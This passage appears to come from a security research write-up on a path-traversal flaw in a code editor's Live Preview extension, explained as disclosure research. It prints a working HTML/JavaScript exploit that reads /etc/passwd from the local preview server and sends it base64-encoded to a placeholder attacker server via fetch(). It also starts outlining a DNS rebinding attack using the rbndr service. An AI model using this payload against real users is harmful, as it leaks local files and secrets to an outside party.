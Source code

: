 In contrast with vulnerability 1, this exploit is quite straightforward. It follows these simple steps:
 1. From the HTML file being previewed, fetch the file or directory that we want to leak with `fetch("http://127.0.0.1:3000/?../../../../../../../../../etc/passwd?")`. (Note that we can see the fetch results even without a CORS policy because our exploit file is also hosted on the `http://127.0.0.1:3000` origin.)
 2. Encode the file contents in base64 with `leaked_file_b64 = btoa(leaked_file)`.
 3. Send the encoded file to our attacker-controlled server with `fetch("http://<attacker-server>?q=" + leaked_file_b64)`.

Here is the commented exploit:
```html
<html>
<head></head>
<body>
    <script>
        function exploit() {
            // 1) Fetch the file (or files) that we want to leak
            fetch("http://127.0.0.1:3000/?../../../../../../../../../etc/passwd?")
	            .then((res) => res.text())
	            .then((leaked_file) => {
	                // 2) Encode the file in base64
	                const leaked_file_b64 = btoa(leaked_file);
	                // 3) Send the encoded file to the attacker-controlled server
	                fetch("http://<attacker-server>?q=" + leaked_file_b64);
	            })
        }
        exploit();
    </script>
</body>
</html>
```
<p class="figure-caption">Exploit that exfiltrates local files when a user previews a malicious HTML file with the Live Preview extension</p>

### Exploitation scenario 2
The previous attack scenario only works if a user previews an attacker-controlled file, but using that exploit is going to be very hard. But we can go further! We can increase the vulnerability’s impact by only requiring that the victim visits an attacker’s website while the Live Preview HTTP server is running in the background with DNS rebinding---a common technique to exploit unauthenticated internal services.

In a DNS rebinding attack, an attacker changes a domain's DNS record between two IPs---the attacker server’s IP and the local server’s IP (commonly `127.0.0.1`). Then, by using JavaScript to fetch this changing domain, an attacker will trick the browser into accessing local servers without any CORS warnings since the origin remains the same. For a more complete explanation of DNS Rebinding attacks, see [this blog post](https://blog.compass-security.com/2021/02/the-good-old-dns-rebinding/).

To set up our exploit, we’ll do the following:
 1. Host our attacker-controlled server with the exploit at `192.168.13.128:3000`.
 2. Use the [rbndr](https://github.com/taviso/rbndr) service with the `7f000001.c0a80d80.rbndr.us` domain that flips its DNS record between `192.168.13.128` and `127.0.0.1`.
